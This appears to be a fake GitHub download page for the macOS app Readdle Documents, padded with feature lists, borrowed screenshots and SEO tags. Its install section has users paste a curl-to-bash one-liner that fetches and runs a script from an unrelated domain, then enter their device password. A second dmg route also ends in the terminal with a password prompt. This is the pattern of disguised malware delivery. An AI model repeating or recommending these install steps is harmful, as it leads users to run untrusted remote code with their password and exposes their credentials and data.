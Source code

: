 # 📁 Readdle Documents — Smart File Manager & Media Hub for macOS

**Readdle Documents** is a powerful and elegant file management application for macOS. It acts as a central hub for all your files, allowing you to browse documents, watch videos, listen to music, manage downloads, and connect to multiple cloud storage accounts — all in one unified interface.

Whether you're working with PDFs, accessing ZIP archives, or streaming content offline — Readdle Documents delivers unmatched flexibility and control.

---

## ✅ Download Readdle Documents for macOS  
[![Download Readdle Documents](https://img.shields.io/badge/Download-Readdle_Documents-blueviolet)](https://readdle-documents-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Readdle Documents?

Readdle Documents is a modern, all-in-one file manager and productivity app for Mac. It combines document viewing, media playback, cloud sync, archive management, and private browsing in a single app. With beautiful UI and Apple Silicon support, it turns your Mac into a full-fledged file system powerhouse.

---

## ✨ Features

- 🗂️ Full file manager: organize, move, rename, or delete files  
- 📥 Built-in download manager and browser  
- 🔐 Secure storage for private documents  
- 🎧 Native audio & video player (MP4, MP3, MKV, etc.)  
- 🌐 Integration with iCloud, Dropbox, Google Drive & more  
- 🗜️ Archive/unzip ZIP and RAR files  
- 🔄 Two-way file syncing across devices  
- 📁 Easy drag-and-drop file organization  
- 🌙 Beautiful dark mode interface  

---

## 💡 Why Use Readdle Documents?

- ✅ Manage all your documents, media, and cloud files in one place  
- 🔒 Keep sensitive data safe with encryption and private folders  
- 📲 Transfer files wirelessly between devices  
- 🌍 Browse and download from the web directly in the app  
- 🎞️ Enjoy seamless video playback with subtitle support  
- 🧰 Perfect for students, creators, and anyone needing a Mac file hub  

---

[![Download Readdle Documents](https://img.shields.io/badge/Download-Readdle_Documents-blueviolet)](https://readdle-documents-mac-download.github.io/.github)

---

## 🖼️ Preview

![Readdle Documents Screenshot 1](https://cdn-rdstaticassets.readdle.com/readdle/Blog/documents-mac-apple-silicon-m1/documents-mac-apple-silicon-m1-main-files.png)  
![Readdle Documents Screenshot 2](https://cdn-rdstaticassets.readdle.com/assets/readdle/modern_2019/products/documents/index/block-transfer-01.png?1744896847)

---

## 📌 Tags

readdle documents, readdle document, documents by readdle android,  
documents by readdle for pc, app documents by readdle, documents app by readdle,  
documents app readdle, documents by readdle app store, documents by readdle iphone,  
readdle app, apps like documents by readdle, document by readdle download,  
document by readdle ios, document by readdle pc, readdle documents mac,  
readdle documents mac download
